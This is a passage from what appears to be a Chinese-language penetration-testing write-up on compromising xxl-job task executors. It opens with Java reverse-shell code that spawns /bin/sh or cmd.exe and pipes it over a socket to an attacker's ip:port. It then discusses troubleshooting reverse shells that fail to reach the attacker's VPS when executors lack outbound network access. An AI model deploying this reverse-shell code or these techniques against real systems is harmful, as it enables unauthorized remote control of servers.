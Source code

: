 ```bash
    }

    public void reverseConn(String ip)
    {
        String ipport = ip;
        try
            {
                String ShellPath;
                if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
                    ShellPath = new String("/bin/sh");
                } else {
                    ShellPath = new String("cmd.exe");
                }
                Socket socket = new Socket(ipport.split(":")[0], 
                                           Integer.parseInt(ipport.split(":")[1]));
                Process process = Runtime.getRuntime().exec(ShellPath);
                new StreamConnector(process.getInputStream(), 
                                    socket.getOutputStream()).start();
                new StreamConnector(process.getErrorStream(), 
                                    socket.getOutputStream()).start();
                new StreamConnector(socket.getInputStream(), 
                                    process.getOutputStream()).start();
            }
        catch (Exception e)
            {
                e.printStackTrace();
            }
    }
}
```

## 2、反弹 shell

在实战中会碰到 executor 不出网的情况。即执行了反弹 shell 的命令之后在 vps 上未收到回显，这时就要去思考 executor 是否出网或者是注册 executor 是否失效。  
我们可以去执行器中查看其注册方式  
[![](assets/1709169576-d2fcdc66f0fcf2badf0774cbe2f704a4.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701506339785-45cd9bbe-87d8-466f-b3d5-d8895fca2eac.png#averageHue=%2312a763&clientId=uf4676542-42d7-4&from=paste&height=580&id=u3994e289&originHeight=1159&originWidth=3833&originalType=binary&ratio=2&rotation=0&showTitle=false&size=143059&status=done&style=none&taskId=u8853cb0f-30d9-4611-a094-df28ec767e5&title=&width=1916.5)  
我们去正常来说自动注册的 executor 是不会出问题的。因为从代码实现来看 xxl-job 的 executor 每隔 2min 就会向 adminer 发送心跳证明其存活。而自己注册的可能就不一定可以打通。
